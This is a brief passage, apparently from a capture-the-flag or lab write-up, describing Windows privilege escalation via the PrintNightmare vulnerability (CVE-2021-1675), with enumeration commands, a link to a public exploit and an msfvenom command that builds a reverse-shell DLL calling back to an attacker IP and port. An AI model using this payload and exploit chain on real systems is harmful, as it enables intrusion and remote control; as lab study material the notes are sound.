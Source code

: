 running whoami /priv we didnt get much
running Get-Service -Name Spooler
because the server is running printer services we can try printernightmare exploit 
https://github.com/cube0x0/CVE-2021-1675
let's try to make a msfvenom payload
msfvenom  -e x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.17.185 LPORT=1337 -f dll -o lol.dll